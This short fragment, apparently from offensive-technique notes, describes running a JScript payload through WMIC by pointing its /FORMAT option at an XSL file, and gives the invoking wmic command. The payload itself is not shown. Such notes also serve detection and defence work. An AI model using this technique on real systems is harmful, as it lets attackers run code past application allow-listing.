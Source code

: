 Define the XSL file containing the jscript payload:
```
file.xsl
```
Invoke any wmic command now and specify /format pointing to the file.xsl:
```
wmic os get /FORMAT:"file.xsl"
```
